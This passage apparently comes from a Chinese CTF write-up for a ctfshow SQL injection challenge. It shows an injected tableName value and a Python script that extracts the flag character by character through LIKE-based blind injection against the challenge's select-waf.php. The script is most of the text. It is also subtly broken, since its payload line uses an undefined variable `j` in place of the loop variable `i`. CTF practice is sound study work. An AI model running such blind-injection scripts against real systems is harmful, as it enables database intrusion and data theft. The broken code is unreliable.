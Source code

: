 tableName=(ctfshow_user)where(pass)like'ctfshow%'![截图](1771836db16f1623e83e2e6fd74f0f4e.png)

<br/>

那么就可以写脚本跑一下后续内容，盲注一下

```python
import requests
url='http://8a3e6ee8-54ee-4936-83ac-e40e147035f9.challenge.ctf.show/select-waf.php'
flagstr="}{-1234567890zxcasdqwertyfghvbnuiojklmZXCVBNMASDFGHJKLQWERTYUIOP"
flag='ctfshow'
while 1:
    for i in flagstr:
        payload={"tableName":"(ctfshow_user)where(pass)like'{0}%'".format(flag+j)}
        r=requests.post(url,payload)
        if "$user_count = 1;" in r.text:
            flag=flag+i
            print(flag)
            break
    if '}'in flag:
        break

```
